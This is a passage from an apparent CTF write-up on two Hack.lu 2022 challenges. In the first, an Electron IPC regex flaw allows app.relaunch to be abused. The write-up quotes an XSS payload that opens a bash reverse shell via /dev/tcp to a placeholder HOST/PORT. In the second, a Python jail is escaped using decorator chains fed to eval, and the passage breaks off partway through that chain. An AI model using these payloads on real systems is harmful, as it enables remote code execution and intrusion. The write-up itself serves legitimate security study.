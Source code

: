 ``` js
 return 
}

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

It doesn't seem to be useful because those methods are not implemented.

But the point is that if you send the `relaunch` command, it will match, so you can execute [app.relaunch](https://www.electronjs.org/de/docs/latest/api/app#apprelaunchoptions), and specify the executable file location during relaunch to achieve RCE.

Payload provided by zeyu2001 in DC:

```js
{
  "houseId":"...",
  "token":"...",
  "message":"<img src=x onerror=\"window.api.invoke('relaunch',{execPath: 'bash', args: ['-c', 'bash -i >& /dev/tcp/HOST/PORT 0>&1']})\">",
  "price":""
 }
```

Sudistark's writeup: https://github.com/Sudistark/CTF-Writeups/blob/main/2022/Hack.lu/babyelectron.md

## Culinary Class Room(6 solves)

You are limited to adding a maximum of 250 decorators to one class, and they cannot have parameters. The goal is to execute any code and obtain the flag.

The author's solution is to find a list and push a lot of numbers into it, and then throw it into bytes and then into eval to execute. For example, the following code will push the number 112 into `copyright._Printer__filenames`.

```py
@copyright._Printer__filenames.append
@memoryview.__basicsize__.__sub__
@staticmethod.__basicsize__.__mul__
@object.__instancecheck__
class a:pass
```

The payload posted by Arusekk in DC:

```python
@print
@list
@eval
@bytes
@copyright._Printer__filenames.__add__
@list
@str.encode
@chr
@len
@StopAsyncIteration.__doc__.format
@copyright._Printer__filenames.append
@len
@OSError.__doc__.format
@copyright._Printer__filenames.append
```